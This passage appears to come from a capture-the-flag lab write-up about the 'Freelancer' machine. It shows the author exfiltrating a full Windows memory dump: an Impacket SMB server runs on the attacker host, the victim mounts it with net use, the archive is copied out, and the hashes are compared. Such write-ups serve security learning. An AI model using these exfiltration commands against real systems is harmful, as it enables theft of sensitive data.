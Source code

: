 There’s a full memory dump of the system!

I’ll exfil it by first creating an SMB share on my host:

```

oxdf@hacky$ smbserver.py share . -username oxdf -password oxdf -smb2support
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

On Freelancer, I’ll mount the share:

```

PS C:\Users\mikasaAckerman\desktop> net use \\10.10.14.6\share /u:oxdf oxdf
The command completed successfully.

```

Now I’ll copy the dump onto it:

```

PS C:\Users\mikasaAckerman\desktop> copy MEMORY.7z \\10.10.14.6\share\

```

And make sure the hashes match:

```

PS C:\Users\mikasaAckerman\desktop> get-filehash -algorithm md5 MEMORY.7z

Algorithm       Hash                                                                   Path                            
---------       ----                                                                   ----                            
MD5             931386993AB32B37692FDE69E8FF389F       C:\Users\mikasaAckerman\deskt...

```

They do:

```

oxdf@hacky$ md5sum MEMORY.7z 
931386993ab32b37692fde69e8ff389f  MEMORY.7z

```
